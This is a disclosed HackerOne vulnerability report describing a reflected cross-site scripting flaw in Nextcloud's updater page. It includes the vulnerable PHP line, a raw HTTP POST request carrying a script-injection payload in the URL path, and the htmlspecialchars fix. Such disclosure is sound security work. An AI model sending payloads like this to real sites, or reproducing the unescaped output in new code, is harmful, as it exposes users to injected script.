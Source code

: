 # [Reflected XSS] In Request URL

## Report Details
- **Report ID**: 515484
- **URL**: https://hackerone.com/reports/515484
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-03-26T10:13:25.245Z
- **Disclosed**: 2020-03-01T13:18:48.738Z

## Reporter
- **Username**: nstikhomirov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
In [index.php file](https://github.com/nextcloud/updater/blob/master/index.php#L1765) on 1765 we can see XSS:
`<a class="button" href="<?php echo str_replace('/index.php', '/../', $updaterUrl); ?>">`
Because NextCloud allow links like: '/index.php/{ANY_CONTENT}'
If we will do request like: 
```
POST /updater/index.php/h"><script>alert(1);</script> HTTP/1.1
Host: vulns.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

updater-secret-input={OUR_SECRET}
```
We will see Reflected XSS: F452129
To fix this vulnerability need to patch `<a class="button" href="<?php echo str_replace('/index.php', '/../', $updaterUrl); ?>">` to `<a class="button" href="<?php echo htmlspecialchars(str_replace('/index.php', '/../', $updaterUrl), ENT_QUOTES); ?>">`

## Impact

If the attacker knows the secret phrase, then they can implode illegitimate html code in page

## Attachments
- Screenshot_2.png
